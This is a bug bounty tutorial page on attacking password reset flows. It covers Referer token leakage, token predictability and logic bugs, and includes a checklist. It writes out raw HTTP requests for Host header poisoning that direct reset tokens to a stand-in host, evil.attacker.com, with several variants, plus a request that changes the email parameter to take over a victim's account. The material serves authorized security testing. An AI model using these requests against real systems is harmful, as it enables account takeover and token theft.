

> Source: https://bugbounty.info/Attack-Surface/Web/Authentication/Password-Reset

# Password Reset

Password reset is one of the most consistently rewarded bug classes in bug bounty. The flow involves tokens, emails, redirects, and external domains  -  that's a lot of surface area for things to go wrong. I come back to this on every target.

## Token Leakage via Referer

When a reset link lands on a page that loads third-party resources (analytics, fonts, ads), the full URL  -  including the token  -  gets sent as the `Referer` header to every external domain.

**How to test:** Trigger a password reset, click the link, and capture outgoing requests in Burp. Look for the reset token appearing in `Referer` headers on requests to Google Analytics, Segment, Intercom, etc.

```http
GET /track?event=page_view HTTP/1.1
Host: analytics.example.com
Referer: https://target.com/reset?token=eyJhb...SENSITIVE_TOKEN
```

This is consistently P2/P3 depending on the program.

## Host Header Poisoning

Classic and still works on a surprising number of targets. The app uses the `Host` header to construct the reset URL in the email. Poison it to point to your server.

```http
POST /forgot-password HTTP/1.1
Host: evil.attacker.com
Content-Type: application/x-www-form-urlencoded
 
email=victim@target.com
```

If the app doesn't validate the host, the victim receives an email with a reset link pointing to `evil.attacker.com`. Token exfiltrated.

**Variations to try:**

```http
Host: target.com
X-Forwarded-Host: evil.attacker.com
 
Host: target.com:@evil.attacker.com
 
Host: evil.attacker.com#target.com
```

Burp's "Host header injection" scan catches some of these but manual testing catches more.

## Token Predictability

Weak tokens are rare on modern frameworks but still appear on legacy apps and custom-built reset flows.

- Grab 10+ reset tokens in quick succession from accounts you control
- Look for sequential or time-based patterns
- Check if the token is an MD5/SHA1 of the email address or timestamp: `md5(email + timestamp)` is a classic failure
- Token length matters  -  anything under 16 hex chars deserves scrutiny

```bash
# Collect tokens, look for patterns
echo "token1: a3f2..."
echo "token2: a3f3..."  # incrementing? bad.
```

## Reset Flow Logic Bugs

**Token reuse**  -  does the token get invalidated after use? Try reusing a consumed token an hour later.

**Token not bound to account**  -  generate a reset token for `attacker@attacker.com`, then modify the email parameter on the reset form submission to `victim@target.com`. If the app only validates the token and not the account it was issued to  -  you win.

```http
POST /reset-password HTTP/1.1
Host: target.com
 
token=ATTACKER_TOKEN&email=victim@target.com&new_password=hacked123
```

**No token expiry**  -  tokens that never expire are a lower severity but still valid. Some programs pay for it.

**Race condition on reset**  -  send two simultaneous requests to consume the same token. If both succeed, there's a TOCTOU issue. Usually chained with something else.

**User enumeration**  -  "Email sent if account exists" is fine. "No account found with that email" is user enumeration. Some programs care, some don't.

## Mermaid: Reset Flow with Attack Points



## Checklist

- Referer leakage to third-party scripts on the reset landing page
- Host header manipulation  -  does the reset email use your injected host?
- Token reuse after consumption
- Token bound to specific account or just valid globally?
- Token entropy  -  collect 10 tokens and compare
- Token expiry  -  try a 24h old token
- User enumeration via response differences

## Related Pages

- [Login Bypass](../../../Attack-Surface/Web/Authentication/Login-Bypass)  -  if reset fails, go back to direct login attacks
- [Session Management](../../../Attack-Surface/Web/Authentication/Session-Management)  -  what happens to existing sessions when a reset occurs?
- [OAuth](../../../Attack-Surface/Web/Authentication/OAuth)  -  SSO-based apps often skip the reset flow entirely; check if there's a legacy one
